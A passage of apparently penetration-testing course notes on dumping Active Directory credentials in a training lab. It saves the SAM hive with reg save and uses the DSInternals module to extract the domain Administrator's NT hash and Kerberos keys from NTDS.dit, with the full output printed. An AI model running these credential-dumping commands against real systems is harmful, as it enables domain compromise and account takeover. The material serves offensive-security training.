         The operation completed successfully.


        C:\htb> reg save HKLM\SAM SAM.SAV

        The operation completed successfully.
        ```
    - Extracting Credentials from NTDS.dit
        - With the NTDS.dit extracted, we can use a tool such as secretsdump.py or the PowerShell DSInternals module to extract all Active Directory account credentials.
        ```powershell
        PS C:\htb> Import-Module .\DSInternals.psd1
        PS C:\htb> $key = Get-BootKey -SystemHivePath .\SYSTEM
        PS C:\htb> Get-ADDBAccount -DistinguishedName 'CN=administrator,CN=users,DC=inlanefreight,DC=local' -DBPath .\ntds.dit -BootKey $key

        DistinguishedName: CN=Administrator,CN=Users,DC=INLANEFREIGHT,DC=LOCAL
        Sid: S-1-5-21-669053619-2741956077-1013132368-500
        Guid: f28ab72b-9b16-4b52-9f63-ef4ea96de215
        SamAccountName: Administrator
        SamAccountType: User
        UserPrincipalName:
        PrimaryGroupId: 513
        SidHistory:
        Enabled: True
        UserAccountControl: NormalAccount, PasswordNeverExpires
        AdminCount: True
        Deleted: False
        LastLogonDate: 5/6/2021 5:40:30 PM
        DisplayName:
        GivenName:
        Surname:
        Description: Built-in account for administering the computer/domain
        ServicePrincipalName:
        SecurityDescriptor: DiscretionaryAclPresent, SystemAclPresent, DiscretionaryAclAutoInherited, SystemAclAutoInherited,
        DiscretionaryAclProtected, SelfRelative
        Owner: S-1-5-21-669053619-2741956077-1013132368-512
        Secrets
        NTHash: cf3a5525ee9414229e66279623ed5c58
        LMHash:
        NTHashHistory:
        LMHashHistory:
        SupplementalCredentials:
            ClearText:
            NTLMStrongHash: 7790d8406b55c380f98b92bb2fdc63a7
            Kerberos:
            Credentials:
                DES_CBC_MD5
                Key: d60dfbbf20548938
            OldCredentials:
            Salt: WIN-NB4NGP3TKNKAdministrator
            Flags: 0
            KerberosNew:
            Credentials:
                AES256_CTS_HMAC_SHA1_96
                Key: 5db9c9ada113804443a8aeb64f500cd3e9670348719ce1436bcc95d1d93dad43
                Iterations: 4096
                AES128_CTS_HMAC_SHA1_96
                Key: 94c300d0e47775b407f2496a5cca1a0a
                Iterations: 4096
                DES_CBC_MD5
                Key: d60dfbbf20548938
                Iterations: 4096
            OldCredentials: